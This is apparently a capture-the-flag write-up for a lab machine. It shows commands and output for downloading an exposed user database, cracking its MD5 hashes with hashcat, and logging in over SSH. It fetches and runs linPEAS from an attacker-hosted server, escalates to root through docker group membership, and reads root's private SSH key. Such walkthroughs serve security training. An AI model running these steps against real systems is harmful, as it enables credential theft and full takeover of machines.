##### Let's EXPLORE


```
Connect http://10.10.126.234:8000/
```





###### Download the sqlite database


```
<strong>wget http://10.10.126.234:8000/utech.db.sqlite</strong>

--2023-05-28 20:22:17--  http://10.10.126.234:8000/utech.db.sqlite
Connecting to 10.10.126.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8192 (8.0K) [application/octet-stream]
Saving to: ‘utech.db.sqlite’

utech.db.sqlite                100%[=================================================>]   8.00K  --.-KB/s    in 0.002s

2023-05-28 20:22:17 (4.63 MB/s) - ‘utech.db.sqlite’ saved [8192/8192]
```


##### Let's open the database / WITH SQLite Database browser


###### WE have FOUND A TABLE called / users


The table **users** has the following attributes:


- 
- login
- 
-
- 
- password
- 
-
- 
- type
- 


```
< Let's see whats inside the table <strong>users</strong> >

<strong>Login   Password                                Type</strong>
admin	0d0ea5111e3c1def594c1684e3b9be84	0
r00t	f357a0c52799563c7c7b76c1e7543a32	0
```


###### WE have FOUND SOME HASHES


Let's find out what for hashes this are.

Visit the [HASH-IDENTIFIER](https://hashes.com/en/tools/hash_identifier) site.





```
This are MD5 hashes.
```


---


#### Exploitation


##### HASHCAT


```
Let's try to crack the hashes...
<strong>
hashcat -m 0 -a 0 -o cracked-password.txt password.hashes /usr/share/wordlists/rockyou.txt</strong>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: password.hashes
Time.Started.....: Sun May 28 20:33:16 2023 (1 sec)
Time.Estimated...: Sun May 28 20:33:17 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 28674.4 kH/s (4.79ms) @ Accel:2048 Loops:1 Thr:32 Vec:1
<strong>Recovered........: 2/2 (100.00%) Digests (total), 2/2 </strong>(100.00%) Digests (new)
Progress.........: 7602176/14344385 (53.00%)
Rejected.........: 0/7602176 (0.00%)
Restore.Point....: 3801088/14344385 (26.50%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: shikoro84 -> hihi8888
Hardware.Mon.#1..: Temp: 52c Util: 31% Core:1372MHz Mem:7000MHz Bus:8

Started: Sun May 28 20:33:16 2023
Stopped: Sun May 28 20:33:17 2023
```


###### GREATE - WE CRACKED BOTH HASHES


```
<strong>r00t</strong>:f357a0c52799563c7c7b76c1e7543a32:<strong>n100906</strong>
<strong>admin</strong>:0d0ea5111e3c1def594c1684e3b9be84:<strong>mrsheafy</strong>
```


---


#### Discovery / Credential Access


Let's login on the site with the credentials.


##### r00t


##### ADMIN





Both login reveal the same information.


##### SSH


```
< Let's try to connect via SSH, since PORT 22 is open >

<strong>ssh r00t@10.10.126.234</strong>

The authenticity of host '10.10.126.234 (10.10.126.234)' can't be established.
ED25519 key fingerprint is SHA256:g5I2Aq/2um35QmYfRxNGnjl3zf9FNXKPpEHxMLlWXMU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? <strong>yes</strong>
Warning: Permanently added '10.10.126.234' (ED25519) to the list of known hosts.

Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun May 28 19:09:40 UTC 2023

  System load:  0.02               Processes:           107
  Usage of /:   24.3% of 19.56GB   Users logged in:     0
  Memory usage: 38%                IP address for eth0: 10.10.126.234
  Swap usage:   0%


1 package can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
```


---


#### Privilege Escalation


```
< We have access, let's see what we can do >
```


##### LINPEAS / Get it From [HERE](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)


1. 
2. Start on attacker machine a **SimpleHTTPServer**
3. 
4.
5. 
6. On target machine (SSH) navigate to **/tmp** directory
7. 
8.
9. 
10. Download **linpeas** from server hosting (attack machine)
11. 
12.
13. 
14. Change rights of linpeas to be **executed**
15. 
16.
17. 
18. Execute!
19. 


```
# Start SimpleHTTPServer
<strong>sudo python3 -m http.server 8000</strong>

# Navigate to /tmp
<strong>cd /tmp</strong>

# Download linPEAS from Server
<strong>wget http://<YOUR-IP>:8000/linpeas.sh</strong>

--2023-05-28 19:24:15--  http://10.11.8.178:8000/linpeas.sh
Connecting to 10.11.8.178:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 830803 (811K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                                           100%[================================================>] 811.33K   492KB/s    in 1.6s
2023-05-28 19:24:17 (492 KB/s) - ‘linpeas.sh’ saved [830803/830803]

# Change rights of linpeas to be executed
<strong>chmod +x linpeas.sh</strong>

# Execute
<strong>./linpeas.sh</strong>
```


```
/---------------------------------------------------------------------------------\
    |                             Do you like PEASS?                                  |
    |---------------------------------------------------------------------------------|
    |         Get the latest version    :     https://github.com/sponsors/carlospolop |
    |         Follow on Twitter         :     @carlospolopm                           |
    |         Respect on HTB            :     SirBroccoli                             |
    |---------------------------------------------------------------------------------|
    |                                 Thank you!                                      |
    \---------------------------------------------------------------------------------/
          linpeas-ng by carlospolop

ADVISORY: This script should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own computers and/or with the computer owner's permission.

Linux Privesc Checklist: https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
 LEGEND:
  RED/YELLOW: 95% a PE vector
  RED: You should take a look to it
  LightCyan: Users with console
  Blue: Users without console & mounted devs
  Green: Common things (users, groups, SUID/SGID, mounts, .sh scripts, cronjobs)
  LightMagenta: Your username

═══════════════════════════════╣ Basic information ╠═══════════════════════════════
                               ╚═══════════════════╝
OS: Linux version 4.15.0-46-generic (buildd@lgw01-amd64-038) (gcc version 7.3.0 (Ubuntu 7.3.0-16ubuntu3)) #49-Ubuntu SMP Wed Feb 6 09:33:07 UTC 2019
User & Groups: uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
Hostname: ultratech-prod
Writable folder: /dev/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)
[+] /bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)

═══════════════════════════════╣ Users Information ╠═══════════════════════════════                                                                                                                                                              ╚═══════════════════╝                                                                                                                                                              ╔══════════╣ My user╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users                                                                                                                                          uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),<strong>116(docker)</strong>

╔══════════╣ Superusersroot:x:0:0:root:/root:/bin/bash                                                                                                                                                                                   ╔══════════╣ Users with consolelp1:x:1000:1000:lp1:/home/lp1:/bin/bash                                                                                                                                                                           r00t:x:1001:1001::/home/r00t:/bin/bashroot:x:0:0:root:/root:/bin/bashwww:x:1002:1002::/home/www:/bin/sh

╔══════════╣ MySQL version
mysql  Ver 14.14 Distrib 5.7.25, for Linux (x86_64) using  EditLine wrapper

╔══════════╣ Searching mysql credentials and execFrom '/etc/mysql/mysql.conf.d/mysqld.cnf' Mysql user: user              = mysql                                                                                                                                   Found readable /etc/mysql/my.cnf!includedir /etc/mysql/conf.d/!includedir /etc/mysql/mysql.conf.d/

<strong>══╣ Possible private SSH keys were found!</strong>
/home/www/api/node_modules/http-signature/http_signing.md
```


##### WE ARE in the "docker" group


```
< Let's exploit this with a simple command >

<strong>docker run -v /:/mnt --rm -it bash chroot /mnt
sh</strong>

<strong>whoami</strong>
root
```


---


##### PRIVILEGE ESCALATION in a nutshell


|                    |                                                               |
| ------------------ | ------------------------------------------------------------- |
| **Syntax**         | **Description**                                               |
| `docker`           | Running the docker command                                    |
| `run`              | Run the container                                             |
| `-v`               | Specifying the volume                                         |
| `/:/mnt`           | Mount the root directory                                      |
| `--rm`             | Remove the container after exit                               |
| `bash chroot /mnt` | bash is being used to run the chroot command which change the |
| `sh`               | Start a sh shell                                              |

PE in a Nutshell


```
# Spawn a stable shell
<strong>python -c 'import pty; pty.spawn("/bin/bash")'</strong>
```


---


#### Collection


```
# Navigate to /tmp
<strong>cd /tmp</strong>

# Run <strong>linPEAS</strong> as <strong>root</strong> again
<strong>./linpeas.sh</strong>

# Now it's appearing a new information that tells us...
YOU ARE ALREADY ROOT!!!
(it could take longer to complete execution)

# Get the flag
<strong>cat /root/.ssh/id_rsa</strong>
MIIEogIBAAKCAQ
```


